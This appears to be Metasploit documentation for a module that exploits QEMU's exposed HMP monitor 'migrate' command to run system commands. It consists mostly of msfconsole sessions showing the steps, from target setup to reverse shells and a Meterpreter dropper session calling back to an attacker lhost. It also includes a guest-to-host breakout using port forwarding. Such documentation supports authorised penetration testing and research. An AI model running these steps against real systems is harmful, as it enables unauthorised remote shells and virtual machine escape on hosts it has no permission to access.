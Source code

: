 ## Vulnerable Application

This module uses QEMU's Monitor Human Monitor Interface (HMP)
TCP server to execute system commands using the `migrate` command.

This module has been tested successfully on QEMU version 6.2.0
on Ubuntu 20.04.

Note: The `migrate` command cannot spawn processes for QEMU
running on Windows systems.


## Installation Steps

Download and install [QEMU](https://www.qemu.org/download/).


## Verification Steps

Start QEMU and monitor HMP service using TCP:

```
qemu-system-aarch64 -M virt -monitor tcp:0.0.0.0:4444,server,nowait -serial mon:stdio -nographic
```

1. `msfconsole`
1. `use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec`
1. `set rhosts [host]`
1. `set rport [port]`
1. `set target [target]`
1. `run`
1. You should get a session


## Options


## Scenarios

### Unix Command Target

```
msf6 > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhosts 172.16.191.240
rhosts => 172.16.191.240
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 4444
rport => 4444
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192
lhost => 172.16.191.192
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP double handler on 172.16.191.192:4444 
[*] 172.16.191.240:4444 - Running automatic check ("set AutoCheck false" to disable)
[+] 172.16.191.240:4444 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 172.16.191.240:4444 - Sending payload (128 bytes) ...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RDx8lJn8owvPaWYr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\nRDx8lJn8owvPaWYr\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.240:41054 ) at 2022-02-05 23:30:49 -0500

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1002(wireshark)
```

### Linux Dropper Target

```
msf6 > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhosts 172.16.191.240
rhosts => 172.16.191.240
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 4444
rport => 4444
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set target 2
target => 2
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set target "Linux (Dropper)" 
target => Linux (Dropper)
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.240:4444 - Running automatic check ("set AutoCheck false" to disable)
[+] 172.16.191.240:4444 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 172.16.191.240:4444 - Sending payload (178 bytes) ...
[*] Sending stage (989032 bytes) to 172.16.191.240
[*] 172.16.191.240:4444 - Command Stager progress - 100.00% done (849/849 bytes)
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.240:41050 ) at 2022-02-05 23:24:56 -0500

meterpreter > getuid
Server username: user
meterpreter > 
```

### QEMU Breakout

The HMP TCP service is reachable from emulated devices, even when the service is
bound to the local network interface only (ie, `-monitor tcp:127.0.0.1:4444`), as
all network traffic from the emulated network adapter is routed via the QEMU host.

As such, it is possible to escape QEMU from a session within an emulated device
(10.0.2.15) and gain a session on the QEMU host (10.0.2.2).

```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : debian-9-13-0-mipsel.local
OS           : Debian 11.2 (Linux 5.10.0-10-4kc-malta)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > ipconfig 

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : enp0s11
Hardware MAC : 52:54:00:12:34:56
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.0.2.15
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5054:ff:fe12:3456
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fec0::5054:ff:fe12:3456
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > portfwd add -l 1234 -p 4444 -r 10.0.2.2
[*] Local TCP relay created: :1234 <-> 10.0.2.2:4444
meterpreter >
Background session 1? [y/N]
msf6 exploit(multi/handler) > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 1234
rport => 1234
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > check
[*] 127.0.0.1:1234 - The target appears to be vulnerable. QEMU monitor HMP service is running.
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192
lhost => 172.16.191.192
msf6 exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP double handler on 172.16.191.192:4444 
[*] 127.0.0.1:1234 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:1234 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 127.0.0.1:1234 - Sending payload (128 bytes) ...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Rl19l7hvy8EO5hPz;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Rl19l7hvy8EO5hPz\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.191.192:4444 -> 172.16.191.240:41056 ) at 2022-02-06 12:54:42 -0500

uname -a
Linux ubuntu 5.13.0-27-generic #29~20.04.1-Ubuntu SMP Fri Jan 14 00:32:30 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
